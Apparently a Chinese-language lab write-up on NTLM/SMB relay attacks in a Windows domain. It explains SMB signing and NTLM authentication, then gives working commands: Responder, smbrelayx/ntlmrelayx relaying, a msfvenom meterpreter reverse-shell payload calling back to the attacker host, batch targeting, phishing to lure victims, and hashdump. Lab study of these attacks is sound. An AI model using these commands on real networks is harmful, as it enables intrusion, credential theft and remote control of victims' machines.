


## SMB 签名

SMB签名是一项功能，通过它可以在数据包级别对使用SMB的通信进行数字签名。对数据包进行数字签名可以使数据包的接收者确认其来源和真实性。**SMB协议中的这种安全机制有助于避免诸如篡改数据包和“中间人”攻击之类的问题。**

**SMB签名在所有当前受支持的Windows版本中都可用，但是默认情况下仅在域控制器上启用SMB签名。**

在SMB1中，启用签名会大大降低性能，尤其是在通过WAN时。如果将SMB2加签名用于1GbE网络和现代CPU，则与SMB1相比，性能下降的幅度有限。

当启用SMB签名时，SMB将停止使用RDMA远程直接数据存取，因为最大MTU限制为1394字节，这会导致邮件碎片和重组，并降低整体性能。

## 中继原理

**攻击者的机器截获有管理员权限的认证信息，你对此再做转发，去真实的服务器上认证，即可获取真正服务器的权限。**

mitm Attacker通过不停的转换机器角色来同时欺骗Smb server和Client两端，可以拿着Client的凭据去访问Smb Server中的资源,如果这个凭据的用户权限在smb server中很大,大到可以随意操作smb server,此时凭据再一旦认证成功,随后再立即执行一段shellcode,那Smb server基本也就沦陷了。


	python3 /usr/share/doc/python3-impacket/examples/smbrelayx.py -h 10.10.40.52

抓包看一下就非常清晰了，攻击机40.99只是中继转发作用。实质是管理员权限机器40.50访问了40.52。


```ntlmrelayx -tf``` 访问多个目标：


本来是 域控访问 kali，kali访问靶机1；

现在是 域控访问 kali，kali访问靶机1、2、3。

## 利用条件

SMB版本信息

不同Windows版本所对应的Smb 版本，smb版本越高，内置的安全机制就越完善,利用难度也就越大，另外，它默认工作在tcp/udp的139和445端口上,属上层协议[偏应用层]。

Smb v1 主要用于xp/2003以下的系统中

Smb v2.x 主要用于win vista/7/2008/2008r2

Smb v3.x 主要用于win 8 / 8.1 / 2012 / 2012r2 /2016

目标机器不能开启smb签名，否则利用无效,一般情况下,windows server会默认开启,而windows单机系统[win 7/8/8.1/10]默认都不会开。

对一些打了ms08-068[KB957097]补丁的老系统[比如windows xp/2003以下的系统]利用也是无效的。

### 探测smb签名是否开启

10.10.40.100 为域内机器，10.10.40.50 为域控。


不建议使用nmap扫描，易被检出。

此外，据说对一些打了ms08-068[KB957097]补丁的老系统[比如Windows xp/2003以下的系统]利用也是无效的。

## 复现

需要中继/被借用权限的机器必须要有域管理员权限或本地管理员权限，否则，是无法利用的。

模拟一次真实环境简单的中继。

环境：

诱捕机(诱导访问并获取它的hash)： 域管权限机器 10.10.40.50 windows server 2016

攻击机： kali 10.10.40.99 ; pip 下的 impacket模块，py3.8.6

靶机：   域内任意机器 10.10.40.52 ...

在诱捕机(这里用的域控，默认开启smb签名)关闭smb签名：

	reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f

	(默认为1)

攻击机：

	cd /user/share/responder

	vim /etc/responder/Responder.conf

关闭smb和http签名。

攻击机执行：

	responder -I eth0

smbrelayx.py 在centos 里 pip 安装默认位置：


smbrelayx.py 在kali默认安装位置：


攻击机开启另一个 cmd 执行：

	python3 /usr/share/doc/python3-impacket/examples/smbrelayx.py -h 10.10.40.52

	-h 后跟要执行命令的靶机


诱使诱捕机访问攻击机的 UNC路径。 

例如 在诱捕机输入：

	dir \\10.10.40.99\c$


攻击成功！

**若想要执行命令**

攻击机开启另一个 cmd 执行：

	python3 /usr/share/doc/python3-impacket/examples/smbrelayx.py -h 10.10.40.52 -c whoami
	
	-h 后跟要执行命令的靶机 -c 跟要执行的命令

其余步骤与上面一致，成功命令执行！


这个组件也可以中继攻击

	python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t 10.10.40.52 -c whoami -smb2support


### 结合 msf 获得shell


这里介绍**通过 ntlmrelayx.py 联动msf上传test.exe(未考虑免杀)，并使用进程迁移脚本注入到其他进程。使之自动上线**：

提前开启 responder，关闭 smb和http。

生成一个exe木马:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.99 LPORT=4444 -e x86/shikata_ga_nai -f exe -o test.exe


启用msfconsole中exploit/multi/handler

	msf > use exploit/multi/handler
	msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
	msf exploit(multi/handler) > set lhost 10.10.40.99
	msf exploit(multi/handler) > set lport 4444
	msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
	msf exploit(multi/handler) > exploit -j
	[*] Exploit running as background job 1.
	[*] Started reverse TCP handler on 10.10.40.99:4444 


**```post/windows/manage/migrate``` 当我们攻击系统时，常常是对诸如 IE之类的服务器进行漏洞利用，如果目标主机关闭了浏览器，meterpreter会话也将随之被关闭，从而导致与目标系统的连接丢失。为了避免这个问题，我们可以将meterpreter会话迁移到内存空间中的其他稳定的、不会被关闭的服务进程中，以维持稳定的系统控制连接。**


执行

	python3 smbrelayx.py -h 10.10.40.52 -e test.exe

打单个目标；也可以打群体目标，加载一个txt文件。


	vim target.txt
	
	10.10.40.52
	10.10.40.53
	10.10.40.90
	10.10.40.100

批量打：

	python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -e test.exe


**接下来就是批量钓鱼上线了。可以用邮件，网页等方式钓鱼。**

诱导有权限靶机访问 UNC 路径。

等待，批量进程注入拿到session。

msf回显：


ntlmrelayx.py 回显：


查看session：



进入 10.10.40.52 这台机器的meterpreter:


dump hash

	run hashdump


进入shell


在靶机上查看注入的进程：

	tasklist|findstr PID


在靶机的进程管理器查看：


(这里没有完全理解，为什么notepad 内存和8796K 大于tasklist查看进程ID得到的 8232 K，不过这个好像影响不大...)

获取当前注入的进程ID:


**不中断meterpreter，挂在后台**：

	meterpreter > background


## NTLM 认证流程

### 工作组环境NTLM认证流程

1.客户端将用户名发送到服务器

2.服务器生成一个16字节的随机数Challenge并发送给客户端

3.客户端使用用户密码的Hash对Challenge进行加密，然后将结果response(Net-NTLM hash)返回给服务器

4.服务器使用用户名从SAM数据库中检索用户密码Hash，使用此密码Hash对Challenge进行加密

5.服务器将其加密的Challenge（在步骤4中）与客户端计算的response（在步骤3中）进行比较。如果它们相同则身份验证成功。


### 域环境NTLM认证流程

1.客户端将用户名发送到服务器

2.服务器生成一个16字节的随机数Challenge并发送给客户端

3.客户端使用用户密码的Hash对Challenge进行加密，然后将结果response(Net-NTLM hash)返回给服务器

4.服务器将三个信息转发发送到域控制器：用户名，服务器发送给客户端的Challenge，客户端返回给服务器的response

5.域控制器使用用户名从SAM数据库中检索用户密码Hash。使用此密码Hash对Challenge进行加密

6.域控制器将其加密的Challenge（在步骤5中）与客户端计算的response（在步骤3中）进行比较。如果它们相同则身份验证成功。

服务器充当了中间人转发者的角色。


## 参考资料

[剖析Hash传递攻击的本质、缓解方式及部分绕过手段](http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#%E7%BD%91%E7%BB%9C%E7%99%BB%E5%BD%95%E4%B8%8Entlm%E8%AE%A4%E8%AF%81)

## 后记

查询用户sid




进程注入

进程注入是一种在某个单独的实时进程的地址空间中执行任意代码的方法。在一个进程的上下文中运行特定代码，则有可能访问该进程的内存，系统或网络资源以及提升权限。 因为执行命令需要借用某些合法进程，所以一般的进程注入都要绕过AV检测。

复杂的样本可以通过命名管道（named pipes ）或进程间通信（IPC）机制作为通信渠道，为了更好的规避检测，它们通常会有分段模块，执行多个进程注入。

一种进程注入工具：https://github.com/3xpl01tc0d3r/ProcessInjection


